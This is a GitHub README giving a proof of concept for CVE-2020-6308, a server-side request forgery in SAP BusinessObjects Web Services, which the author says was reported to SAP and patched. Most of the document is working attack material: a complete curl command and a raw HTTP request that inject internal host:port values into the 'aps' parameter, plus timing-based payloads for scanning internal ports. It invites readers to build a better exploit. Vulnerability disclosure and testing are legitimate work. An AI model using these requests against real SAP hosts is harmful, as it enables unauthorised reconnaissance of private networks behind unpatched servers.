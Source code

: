# CVE-2020-6308 SAP POC
![Follow on Twitter](https://img.shields.io/twitter/follow/initroott?label=Follow%20&style=social)
![GitHub last commit](https://img.shields.io/github/last-commit/initroot/CVE-2020-6308)
![GitHub stars](https://img.shields.io/github/stars/initroot/CVE-2020-6308)

SAP BusinessObjects Business Intelligence Platform (Web Services) versions - 410, 420, 430, allows an unauthenticated attacker to inject arbitrary values as CMS parameters to perform lookups on the internal network which is otherwise not accessible externally. Follow me on twitter or DM for questions: https://twitter.com/initroott

I reported the issue to SAP in May 2020 and patch released October 2020. You can go ahead and develop your own PoC futher, however, I'll provide a bit of background.
The CMS function doesn't validate the address given. If the host firewall isn't configured correctly, its possible to easily fingerprint for ports or internal network based on responses received from requests. I'll show in the below example how you can see open ports using the CuRL request..
In the below example I have a SAP Host (192.168.0.191), Attacking Machine (192.168.0.149) and another device e.g. internal router (192.168.0.1). 

Our SAP host has the following ports open:

![](https://github.com/InitRoot/CVE-2020-6308/raw/main/image.png)

And our internal router has the following open: 53,80,34573

![](https://github.com/InitRoot/CVE-2020-6308/raw/main/router.png)


So let's test this, we can identify open ports simply based on the timings of the request response. Examples below:

    time curl -i -s -k  -X $'POST' \
        -H $'Host: 192.168.0.191:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:81.0) Gecko/20100101 Firefox/81.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 120' -H $'Origin: http://192.168.0.191:8080' -H $'Connection: close' -H $'Referer: http://192.168.0.191:8080/AdminTools/querybuilder/ie.jsp' -H $'Cookie: JSESSIONID=8EE4AA85EB930DEB7090187F4CB4711B; developer_samples_app_lastusr=admin; developer_samples_app_lastaps=192.168.0.191; developer_samples_app_lastaut=secEnterprise' -H $'Upgrade-Insecure-Requests: 1' \
        -b $'JSESSIONID=8EE4AA85EB930DEB7090187F4CB4711B; developer_samples_app_lastusr=admin; developer_samples_app_lastaps=192.168.0.191; developer_samples_app_lastaut=secEnterprise' \
        --data-binary $'aps=192.168.0.1:53&usr=admin&pwd=&aut=secEnterprise&main_page=ie.jsp&new_pass_page=newpwdform.jsp&exit_page=logonform.jsp' \
        $'http://192.168.0.191:8080/AdminTools/querybuilder/logon?framework='

Testing the following payloads:

* 192.168.0.1:4
* 192.168.0.1:5

Here you can see closed ports test time results, average around 5ms..

![](https://github.com/InitRoot/CVE-2020-6308/raw/main/closedPortsTest.png)

* 192.168.0.1:22
* 192.168.0.1:80

Here you can see open/filtered ports test time results much larger..

![](https://github.com/InitRoot/CVE-2020-6308/raw/main/openPortsTest.png)
![](https://github.com/InitRoot/CVE-2020-6308-PoC/raw/main/SAPWireShark.png)

Now the below isn't ideal, as different routings, some firewalls can impact the results. However, it should give you an idea on where to start building a better exploit.. The above can be adjusted by creating a baseline then working further from there. I'd definitely advise looking at setting up a listener, then seeing what happens.



The below shows how the request will look in Burp with the APS parameter being the vulnearble injection point.
Simpler PoC would be to just inject a canary token value and wait for the trigger..
##  Web Request

    POST /AdminTools/querybuilder/logon?framework= HTTP/1.1
    Host: 192.168.0.191:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:81.0) Gecko/20100101 Firefox/81.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 128
    Origin: http://192.168.0.191:8080
    Connection: close
    Referer: http://192.168.0.191:8080/AdminTools/querybuilder/ie.jsp
    Upgrade-Insecure-Requests: 1

    aps=192.168.0.191&usr=admin&pwd=admin&aut=secEnterprise&main_page=ie.jsp&new_pass_page=newpwdform.jsp&exit_page=logonform.jsp

